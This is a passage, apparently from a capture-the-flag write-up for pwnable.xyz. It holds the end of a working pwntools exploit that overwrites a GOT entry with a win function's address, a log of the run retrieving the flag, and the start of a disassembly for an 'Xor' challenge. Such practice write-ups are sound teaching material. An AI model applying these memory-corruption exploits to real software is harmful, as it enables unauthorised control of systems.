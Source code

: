 ```python
payload += 'a'*32
payload += p64(binary.got['read'])

r.send(payload)

r.recvuntil('> ')
r.sendline('2')
r.recvuntil(': ')

payload = ''
payload += p64(binary.symbols['win'])

r.sendline(payload)

r.recvuntil('> ')
r.sendline('2')
r.interactive()
```
exploit:
```bash
junheah@ubuntu:~$ python exp.py
[*] './note'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to svc.pwnable.xyz on port 30016: Done
[*] Switching to interactive mode
FLAG{useless_if_u_cant_print_the_note}desc: FLAG{useless_if_u_cant_print_the_note}Menu:
 1. Edit note.
 2. Edit desc.
 0. Exit
> FLAG{useless_if_u_cant_print_the_note}[*] Got EOF while reading in interactive
$  
```

## 6. Xor
```nasm
Dump of assembler code for function main:
   0x0000000008000a34 <+0>:     push   rbp
   0x0000000008000a35 <+1>:     mov    rbp,rsp
   0x0000000008000a38 <+4>:     sub    rsp,0x30
   0x0000000008000a3c <+8>:     mov    rax,QWORD PTR fs:0x28
   0x0000000008000a45 <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000008000a49 <+21>:    xor    eax,eax
   0x0000000008000a4b <+23>:    lea    rdi,[rip+0x15b]        # 0x8000bad "The Poopolator"
   0x0000000008000a52 <+30>:    call   0x80007f0 <puts@plt>
   0x0000000008000a57 <+35>:    call   0x80009c9 <setup>
   0x0000000008000a5c <+40>:    mov    QWORD PTR [rbp-0x10],0x0
   0x0000000008000a64 <+48>:    lea    rdi,[rip+0x151]        # 0x8000bbc "> 💩   "
   0x0000000008000a6b <+55>:    mov    eax,0x0
   0x0000000008000a70 <+60>:    call   0x8000800 <printf@plt>
   0x0000000008000a75 <+65>:    lea    rcx,[rbp-0x10]
   0x0000000008000a79 <+69>:    lea    rdx,[rbp-0x18]
   0x0000000008000a7d <+73>:    lea    rax,[rbp-0x20]
   0x0000000008000a81 <+77>:    mov    rsi,rax
   0x0000000008000a84 <+80>:    lea    rdi,[rip+0x13b]        # 0x8000bc6 "%ld %ld %ld"
   0x0000000008000a8b <+87>:    mov    eax,0x0
   0x0000000008000a90 <+92>:    call   0x8000828 <scanf>
   0x0000000008000a95 <+97>:    mov    DWORD PTR [rbp-0x24],eax
   0x0000000008000a98 <+100>:   mov    rax,QWORD PTR [rbp-0x20]   ; a exists
   0x0000000008000a9c <+104>:   test   rax,rax
```
